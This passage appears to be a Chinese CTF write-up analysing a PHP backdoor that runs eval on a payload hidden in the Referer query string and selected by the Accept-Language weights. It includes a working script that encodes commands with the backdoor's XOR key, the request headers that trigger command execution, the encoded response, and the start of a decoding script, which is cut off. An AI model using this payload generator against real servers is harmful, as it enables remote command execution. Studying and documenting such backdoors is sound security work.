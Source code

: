 ```php
for($z=1; $z<count($m[1]); $z++)
  $p.=$q[$m[2][$z]];
```

`$z` 指当前是第几种语言，`$m[2][$z]` 就是该语言权重的小数点后第一位，以这个值为索引取得 `Referer` 的 url 中 query string 里对应索引的那个参数值拼接到 `$p` 上。

下面的 `if` 判断 `$p` 是不是以 `$h` 开头 `$f` 结尾，如果是则进入下面的 `eval` 函数，我们才能实现命令注入。`eval` 函数内是一个简单的写逆向函数的过程。

脚本：

```php
<?php
// 照搬
function x($t,$k)
{
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0; $i<$l;)
    {
        for($j=0; ($j<$c&&$i<$l); $j++,$i++)
        {
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}

function inject($cmd) {
    $payload = base64_encode(x(gzcompress($cmd), "4f7f28d7"));
    return "675".$payload."a3e";
}

echo inject('system("ls");');
?>
```

将得到的字符串放在 `Referer` 的第一个参数里，设置请求头：

```
Accept-Language: zh-CN,zh;q=0.0
Referer: http://12.12.12.12/index.php?a=675TPocyB4WLfrhNv1PZOrQMTREimJna3e
```

得到经过编码的返回值：

```
TPp8VHv2Kv4DTuVN+hCEff8ve2EBCpdlZk33ypDEwMumBIr0uCrKpbiq1Z5+6xyPHma96ydT
```

再写脚本解码：

```php
<?php
// 照搬
function x($t,$k)
{
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0; $i<$l;)
    {
        for($j=0; ($j<$c&&$i<$l); $j++,$i++)
        {
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
```